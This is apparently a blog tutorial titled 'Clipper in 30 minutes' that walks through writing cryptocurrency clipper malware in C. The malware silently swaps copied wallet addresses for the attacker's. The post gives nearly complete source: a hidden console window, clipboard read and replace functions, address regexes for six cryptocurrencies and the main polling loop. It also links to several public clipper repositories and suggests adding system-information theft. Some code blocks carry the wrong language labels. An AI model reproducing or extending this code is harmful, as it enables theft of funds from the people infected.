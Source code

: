 ```yaml
---
layout: post
title: "CLIPPER IN 30 MINUTES"
date: 2023-03-10T03:22:42Z
authors: ["Sage Kirk", "Mike Vance"]
categories: ["Development"]
description: "I won't say the product is good or bad as I haven't used it and can't claim anything. And now I will show that the task of writing your own clipper is not so difficult and many people can do it, especially those who have dealt with copy-pasted source codes in the public domain."
thumbnail: "/assets/images/blog/python-.jpg"
image: "/assets/images/blog/python-.jpg"
comments: false
toc: true
---
```


# CLIPPER IN 30 MINUTES

I won't say the product is good or bad as I haven't used it and can't claim anything. And now I will show that the task of writing your own clipper is not so difficult and many people can do it, especially those who have dealt with copy-pasted source codes in the public domain.

## How the clipper works

Let's figure out what a clipper is. Clipper is a malicious program that replaces the crypto addresses in the clipboard with the attacker's addresses so that the victim sends them to the attacker while sending coins.
According to this description, we throw in a scheme of work:

Looks simple enough. Let's break down each block.
Obtaining and replacing the clipboard can be implemented through any library that works with winapi in any language.

**How to check if a text is an address? The answer is regular expressions (regex). What's this?**

Regular expressions - used in computer programs that work with text, a formal language for searching and manipulating substrings based on the use of metacharacters ( wildcard in text , . characters) To search, a pattern string is used ( English pattern, in Russian it is often called a "template", "mask"), consisting of characters and metacharacters and setting the search rule. For manipulations with text, a replacement string is additionally specified, which can also contain special characters.
For dummies, regular expressions are a formal language, thanks to which you can check if the text matches certain criteria - length, set of letters, and so on.
You can read more about them here . Checking for compliance occurs according to patterns (English pattern, we usually use the term "template"). Patterns can be easily found on the Internet by query "*crypt* address regex".
Now I will show with my example that writing your own clipper is much easier than you think.

## Clipper writing

I will write in C, it can be written even in python, but it is not recommended.
We create a project in Visual Studio, we create the main file in it, I called it main.c.

Since there is no regex library in the C standard library, I will use the impossibly crude but single and compact library tiny-regex-c . Download re.c and re.h, import them into the project.

We import the necessary libraries into main.c and hide the console through keywords for the compiler: 
```c
#include "re.h"
#include <windows.h>
#pragma comment(linker, "/SUBSYSTEM:windows /ENTRY:mainCRTStartup")
```
We write functions for getting and replacing the clipboard: 
```python
char* getclipboard()
{
    static HANDLE clip;
    if (OpenClipboard(NULL))
    {
        clip = GetClipboardData(CF_TEXT);
        CloseClipboard();
    }
    return (char*)clip;
}

void setclipboard(char* text)
{
    HGLOBAL global = GlobalAlloc(GMEM_FIXED, strlen(text) + 1);
    memcpy(global, text, strlen(text));
    if (OpenClipboard(NULL))
    {
        EmptyClipboard();
        SetClipboardData(CF_TEXT, global);
        CloseClipboard();
    }
}
```
We create a structure for wallets, it will allow you to easily add new wallets to the clipper (and with the help of regular expressions, you can add at least a substitution of payment links).
```python
typedef struct crypto {
    char* ptn;
    char* address;
}; 
```
We create variables in it with our wallets:
```python
const char* btcadr = "";
const char* segwitadr = "";
const char* ethadr = "";
const char* ltcadr = "";
const char* xrpadr = "";
const char* dogeadr = "";
```
We create structures for wallets and combine them into one list. The ptn variable is the regex pattern, the address variable is the address that will be substituted.

I will have 5 cryptocurrencies - Bitcoin (+SegWit addresses (bc1q)), Ethereum, Litecoin, Ripple, Dogecoin. 
```c
struct crypto btc = { .ptn = "^[13][a-km-zA-HJ-NP-Z1-9]*$", .address = btcadr };  // fixed length is not supported in tiny regex

struct crypto segwit = { .ptn = "^bc1q[a-zA-HJ-NP-Z0-9]*$", .address = segwitadr };  // p2pkh and p2wpkh have different regular expressions, since changing the legacy address to segwit (bc1q) will be noticeable

struct crypto eth = { .ptn = "^0x[a-fA-F0-9]*$", .address = ethadr };

struct crypto ltc = { .ptn = "^[LM3][a-km-zA-HJ-NP-Z1-9]*$", .address = ltcadr };

struct crypto xrp = { .ptn = "^r[0-9a-zA-Z]*$", .address = xrpadr };

struct crypto doge = { .ptn = "^D[5-9A-HJ-NP-U][1-9A-HJ-NP-Za-km-z]*$", .address = dogeadr };

struct crypto all[6] = { btc, segwit, eth, ltc, xrp, doge };  // where 6 is the number of services
```
Regular expressions have a non-fixed (*) number of repetitions. This is not so safe, since, say, the text 1abc will match the regular expression and will be replaced. It is used due to the fact that tiny-regex-c cannot be set to a fixed number of repetitions, in all languages ​​where it is supported, I urge you to set a fixed number of repetitions corresponding to the type of address.
Main Loop:
```js
while (1) {
         char*clipdata = getclipboard();  // get clipboard
         if (clipdata != NULL) { // if there is something in the buffer
             for (int i = 0; i < 6; i++) { // loop from all types of wallets, where 6 is the number of services
                 int matchlen;
                 int match = re_match(all[i].ptn, clipdata, &matchlen);  // check if the text in the buffer is the corresponding address
                 if (match != -1) { // if it is, change the clipboard to the address specified in the code
                     setclipboard(all[i].address);
                 }
             }
         }
         Sleep(50);  // so that the percent does not load, after each check, sleep for 0.05 seconds
     }
```
In the comments, I wrote down what each team is responsible for.

> It took me ～half an hour to write this clipper. Only 65 lines, the final stub weighs 12.5kb.
You can add substitution of other addresses on a regular basis in the same way as wallets are added above. Sending information about a PC and other garbage can be soldered by anyone, with Google.

## Sources :

**C Clipper** : [link](https://github.com/ratabomb/fuckclipper)
**C++ Clipper** : [link](https://github.com/sorosgamble/CoinClipper)
**Py Clipper** : [link](https://github.com/NightfallGT/BTC-Clipper)
**C# Clipper** : [link](https://github.com/SmokingWalrus/BTC-Clipper)
**PureBasic Clipper** : [link](https://github.com/fakkura/Clipper)
